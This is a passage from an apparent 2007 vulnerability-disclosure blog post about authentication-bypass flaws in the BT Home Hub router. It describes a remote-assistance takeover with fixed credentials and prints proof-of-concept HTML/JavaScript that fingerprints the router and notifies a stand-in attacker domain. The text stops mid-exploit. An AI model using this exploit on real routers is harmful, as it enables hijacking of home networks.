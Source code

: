 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (4)
author: pagvac
date: Thu, 08 Nov 2007 11:33:13 GMT
template: post.pug
---
```


The following are the full details of the vulnerabilities we reported ([BID 25972](http://www.securityfocus.com/bid/25972)) to BT regarding their Home Hub router. We are going to have a brief detail on all POCs. If you have any suggestions, recommendations or corrections, do not hesitate to [contact us](http://www.gnucitizen.org/contact). _All the vulnerabilities and demo exploits discussed below have been tested on version `6.2.2.6` of the firmware, unless otherwise specified. Have fun and be responsible!_

### Exploit #1: Enable remote assistance and notify intruder when victim Home Hub is owned

This is the exploit [shown](/blog/bt-home-flub-pwnin-the-bt-home-hub) in our first demo video on which we forge the **enable remote assistance** request using an authentication bypass bug we found within the router firmware. Even if the victim has changed the password, the request will still go through no matter what. After successful exploitation, the attacker is notified via email with the URL (IP address) needed to control the Home Hub remotely.

In our exploit we set the credentials **tech:12345678**. Notice the double forward slash in the **action** attribute which allows us to bypass the authentication! The exploit Proof of Concept code follows:

    <html>
    <!-- index.html -->
    <head>
    <script>

    function redirect() {

           targetURL="http://www.google.com/search?ie=UTF-8&oe=UTF-8&sourceid=navclient&gfns=1&q=techno+viking";
           notifyURL="http://www.attackersdomain.com/notify.php";
           imgsrc = 'http://192.168.1.254/images/head_wave.gif';
           fingerprint_img = new Image();

           fingerprint_img.onerror = function (evt) {
                   ; //alert(this.src + " can't be loaded.");
           }

           // only notify attacker only if potential vulnerable Thomson
    Speedtouch / BT Homehub router found
           fingerprint_img.onload = function (evt) {
                   //alert(this.src + " is loaded.");
                   C=new Image();
                   C.src=notifyURL;
           }

           fingerprint_img.src = imgsrc;
           setTimeout("document.location=targetURL", 500);
    }
    </script>
    </head>
